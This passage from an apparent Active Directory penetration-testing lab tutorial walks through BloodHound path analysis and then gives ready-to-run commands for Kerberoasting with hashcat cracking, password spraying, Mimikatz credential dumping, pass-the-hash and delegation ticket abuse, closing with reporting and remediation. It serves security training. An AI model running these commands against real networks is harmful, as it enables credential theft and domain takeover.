 3. **Visualize Attack Paths**:
   - BloodHound displays a graph with nodes (users, computers, groups) and edges (relationships like `MemberOf`, `HasSession`, `AdminTo`).
   - Click nodes to view details (e.g., user properties, group memberships).
   - Follow paths to identify vulnerabilities, such as a low-privilege user with a session on a Domain Controller.

#### **Step 4: Exploit Identified Vulnerabilities**
Use BloodHound’s findings to guide exploitation. Below are examples tied to the provided commands:

1. **Kerberoasting**:
   - BloodHound identifies Kerberoastable accounts (users with SPNs). Extract their hashes:
     ```bash
     impacket-GetUserSPNs -dc-ip 192.168.10.10 lab.local/testuser1:password123 -request
     ```
   - Crack the hashes using Hashcat:
     ```bash
     hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
     ```
   - Use cracked credentials for further attacks (e.g., privilege escalation).

2. **Password Spraying**:
   - If BloodHound shows weak password policies, use CrackMapExec for password spraying:
     ```bash
     crackmapexec smb 192.168.10.10 -u users.txt -p passwords.txt
     ```
   - Create `users.txt` from BloodHound’s user list and test common passwords.

3. **Privilege Escalation via Sessions**:
   - If BloodHound shows a privileged user session on a computer, use **Mimikatz** to dump credentials:
     ```powershell
     Invoke-Mimikatz -Command "sekurlsa::logonpasswords"
     ```
   - Alternatively, use CrackMapExec with a stolen NTLM hash:
     ```bash
     crackmapexec smb 192.168.10.10 -u testuser1 -H <NTLM_hash>
     ```

4. **Abusing Delegations**:
   - For unconstrained delegation systems identified by BloodHound, request a Service Ticket:
     ```bash
     impacket-getST -spn cifs/dc01.lab.local -dc-ip 192.168.10.10 lab.local/svc-app:password123
     ```
   - Use the ticket for lateral movement or privilege escalation.

5. **Enumerate Shares**:
   - BloodHound may reveal systems with open shares. Verify with CrackMapExec:
     ```bash
     crackmapexec smb 192.168.10.10 -u testuser1 -p password123 --shares
     ```
   - Check for sensitive data in shares (e.g., the `C:\Sensitive` folder from the setup).

#### **Step 5: Document and Report**
- Use BloodHound’s **Export Graph** feature to save attack path visualizations.
- Document findings in a tool like **CherryTree** or a markdown file, including:
  - Misconfigurations (e.g., weak passwords, unconstrained delegation).
  - Attack paths (e.g., user-to-Domain-Admin escalation).
  - Successful exploits (e.g., cracked Kerberos hashes).
- Provide remediation steps (e.g., disable delegation, enforce strong passwords).

---